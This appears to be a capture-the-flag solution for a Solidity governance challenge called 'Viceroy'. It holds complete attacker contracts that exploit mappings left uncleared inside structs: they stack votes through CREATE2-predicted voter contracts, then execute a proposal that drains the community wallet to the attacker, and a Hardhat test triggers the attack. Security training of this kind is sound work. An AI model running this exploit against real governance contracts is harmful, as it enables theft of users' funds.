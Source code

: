 # Viceroy

## Goals

=> Get a balance of 5 NFTs instead of 1
=> Must exploit one transaction

### Hints

- None

### Solution

- The weakness lies in the delete keyword which doesn't clear mappings properly when located inside a struct.

### Steps

- Appoint a viceroy which needs to be a contract (no functions only constructor)
- Contract address needs to be predicted
- Set a proposal which will steal the funds through the data field
- Create contracts in a loop that:
- Get approved, vote and then get disapproved
- Since mappings inside structs aren't properly cleared we still have those votes
- In the end execute Proposal which will call with our malicious data

### Attacker Contract

```solidity
contract GovernanceAttacker {
    address player;

    constructor() {
        player = msg.sender;
    }

    function attack(address _governance, address _communityWallet) external {
        // get bytecode
        bytes memory bytecode = type(ViceroyAttacker).creationCode;
        bytecode = abi.encodePacked(
            bytecode,
            abi.encode(_governance, player, _communityWallet)
        );
        // get hash & address using a fixed salt here => uint(123)
        bytes32 hash = keccak256(
            abi.encodePacked(
                bytes1(0xff),
                address(this),
                uint(123),
                keccak256(bytecode)
            )
        );
        address deployedAddr = address(uint160(uint(hash)));
        // apoint the predicted address as Viceroy
        Governance(_governance).appointViceroy(deployedAddr, 1);
        // create with salt to deploy our viceroy contract at the address which we predicted
        new ViceroyAttacker{salt: bytes32(uint(123))}(
            _governance,
            player,
            _communityWallet
        );
    }
}

contract ViceroyAttacker {
    Governance governance;
    uint attackCounter = 1;

    constructor(
        address _governance,
        address _player,
        address _communityWallet
    ) {
        governance = Governance(_governance);
        uint256 value = _communityWallet.balance;
        // malicious call data which will transfer all funds to our player
        bytes memory data = abi.encodeWithSignature(
            "exec(address,bytes,uint256)", // will transfer balance to player
            _player, // player address
            "0x", // not needed to transfer balance
            value
        );
        // since this contract is the viceroy we cann create a proposal
        governance.createProposal(_player, data);
        uint256 proposalId = uint256(keccak256(data));
        // loop 10 times
        while (attackCounter < 11) {
            // get bytecode
            bytes memory bytecode = type(VoterAttacker).creationCode;
            bytecode = abi.encodePacked(
                bytecode,
                abi.encode(_governance, proposalId, address(this))
            );
            // get hash & address
            bytes32 hash = keccak256(
                abi.encodePacked(
                    bytes1(0xff),
                    address(this),
                    attackCounter,
                    keccak256(bytecode)
                )
            );
            address deployedAddr = address(uint160(uint(hash)));
            governance.approveVoter(deployedAddr);
            new VoterAttacker{salt: bytes32(attackCounter)}(
                _governance,
                proposalId,
                address(this)
            );
            governance.disapproveVoter(deployedAddr);
            attackCounter++;
        }
        governance.executeProposal(proposalId);
    }
}

contract VoterAttacker {
    Governance governance;

    constructor(address _governance, uint256 proposalId, address _viceroy) {
        governance = Governance(_governance);
        bool inFavor = true;
        governance.voteOnProposal(proposalId, inFavor, _viceroy);
    }
}

```

### Test

```javascript
it('conduct your attack here', async function () {
	const attackTx = await attacker
		.connect(attackerWallet)
		.attack(governance.address, communityWallet.address);
	await attackTx.wait();
});
```
